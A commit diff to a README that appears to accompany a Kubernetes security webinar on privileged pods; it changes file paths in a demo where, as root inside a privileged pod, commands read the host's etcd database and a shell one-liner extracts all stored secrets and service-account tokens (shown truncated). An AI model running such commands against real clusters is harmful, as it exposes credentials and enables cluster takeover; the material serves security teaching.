

Before and after one commit to slurm-personal/webinar-seck8s, a Markdown page: 01-privileged-pods/README.md, 2 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/01-privileged-pods/README.md
+++ b/01-privileged-pods/README.md
@@ -58,7 +58,7 @@ k -n privileged-pods attach -it pod-privileged -c main
 artem  bin  boot  dev  etc  home  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
 
 
-$ [root@seck8s /]# strings /var/lib/etcd/member/snap/db
+$ [root@seck8s /]# strings /mnt/var/lib/etcd/member/snap/db
 </registry/configmaps/ingress-nginx/ingress-controller-leader
 	ConfigMap
 ingress-controller-leader
@@ -75,5 +75,5 @@ Print all etcd secrets:
 ```
-[root@seck8s /]# db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
+[root@seck8s /]# db=`strings /mnt/var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
 B/registry/secrets/kube-system/resourcequota-controller-token-7q9bd | eyJhbGciOiJSUzI1NiIsImtpZ...
 ...
 ```
````
Also changed, not shown: other parts of 01-privileged-pods/README.md (+1 -1 lines), 03-application-security/README.md (+3 -3 lines), static/03-k8s-matrix.png, 2 other files.
